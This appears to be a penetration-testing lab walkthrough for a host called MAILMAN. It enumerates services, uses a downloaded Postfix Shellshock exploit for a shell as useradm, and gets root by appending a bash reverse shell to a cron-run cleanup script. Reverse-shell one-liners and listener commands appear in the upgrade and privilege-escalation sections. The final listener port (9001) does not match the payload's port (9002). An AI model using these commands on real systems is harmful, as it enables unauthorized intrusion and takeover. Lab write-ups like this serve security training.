## Enumeration
### NMAP

```bash
nmap -sC -sV -v -Pn -oN scans/nmap.txt 10.11.1.231
```

```text
PORT     STATE    SERVICE         VERSION
22/tcp   open     ssh             OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 b6:8d:1e:f3:80:64:3f:8a:96:52:92:7a:9f:b1:be:67 (DSA)
|   2048 72:c4:06:a7:2f:71:1b:6a:6b:57:fe:cf:ad:3f:9c:16 (RSA)
|_  256 6b:c6:6e:fb:ba:06:dc:23:f9:3e:01:a6:2a:87:48:1a (ECDSA)
25/tcp   open     smtp            Postfix smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost.localdomain
| Issuer: commonName=localhost.localdomain
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2013-05-05T06:42:26
| Not valid after:  2023-05-03T06:42:26
| MD5:   2c35 f35e 5952 898d 73e2 e771 e525 cd99
|_SHA-1: 9588 1649 542b 9837 58d2 7e2e 2645 676a 9822 d3a6
|_smtp-commands: mail.local, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
100/tcp  filtered newacct
111/tcp  open     rpcbind         2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
139/tcp  open     netbios-ssn     Samba smbd 3.X - 4.X (workgroup: SECURITY)
445/tcp  open     netbios-ssn     Samba smbd 4.2.10-Debian (workgroup: SECURITY)
1524/tcp filtered ingreslock
7920/tcp filtered unknown
8082/tcp filtered blackice-alerts
9998/tcp filtered distinct32
Service Info: Hosts:  mail.local, MAILMAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m56s, deviation: 2h18m34s, median: -4s
| smb2-security-mode: 
|   3.0: 
|_    Message signing enabled but not required
| nbstat: NetBIOS name: MAILMAN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   MAILMAN<00>          Flags: <unique><active>
|   MAILMAN<03>          Flags: <unique><active>
|   MAILMAN<20>          Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   SECURITY<00>         Flags: <group><active>
|   SECURITY<1d>         Flags: <unique><active>
|_  SECURITY<1e>         Flags: <group><active>
| smb2-time: 
|   date: 2022-07-27T07:23:54
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.2.10-Debian)
|   Computer name: mailman
|   NetBIOS computer name: MAILMAN\x00
|   Domain name: local
|   FQDN: mailman.local
|_  System time: 2022-07-27T03:23:54-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

### SMB

There are 3 shares.

```bash
smbclient -N -L //10.11.1.231
```

  

```bash
smbclient -N //10.11.1.231/docs
```

  

There's a `postfix` directory with a changelog file. Let's download and uncompress it.

```bash
cd postfix
get changelog.gz
```

  

```bash
gunzip changelog.gz
```

  

After trying a few random version, we find that `version 4` is probably the version we are on considering there are no higher version numbers referenced.

```bash
cat changelog | grep "version 4" -A 1 -B 1 
```

  

If we look for some exploits we see there is one that fits our environment most. The version aligns, in addition the rest of the exploits are either privilege escalation or DoS.

## Shell as useradm

If we look on Github, there's an [exploit](https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py).

```bash
wget https://raw.githubusercontent.com/3mrgnc3/pentest_old/master/postfix-shellshock-nc.py
```

Before we run the exploit we need to find a valid email account.

If we look at the SMB shares again, there's a `useradm` in the `/home` share. Let's verify that this is a valid account.

  

```bash
telnet 10.11.1.231 25
VRFY useradm
```

 

Now we can run the exploit.

```bash
python postfix-shellshock-nc.py 10.11.1.231 useradm@mail.local 192.168.119.230 9001
```

And we get our shell!

  

### Upgrade Shell

Before we continue, let's upgrade our shell.

```bash
# Target
bash -i >& /dev/tcp/192.168.119.241/9001 0>&1

# Our machine
rlwrap nc -lnvp 9001
```

```bash
export TERM=xterm
python -c "import pty;pty.spawn('/bin/bash')"
```

  

## Privilege Escalation

Let's use `linpeas` to enumerate the target. First we need to upload it to the target.

```bash
cp /usr/share/linux-resources/linpeas.sh ./
python3 -m http.server 80
```

```bash
wget http://192.168.119.241/linpeas.sh
chmod +x linpeas.sh
```

  

Now we can run it.

```bash
./linpeas.sh
```

If we look at the `crontab` we see every 5 minutes there's a `cleanup.sh` script run as root.

  

We can add a reverse shell payload to this script and wait for it to execute.

```bash
echo "bash -i >& /dev/tcp/192.168.119.241/9002 0>&1" >> cleanup.sh
```

  

Start a `netcat` listener to catch our shell on another port.

```bash
rlwrap nc -lnvp 9001
```

5 minutes later we get our root shell!

  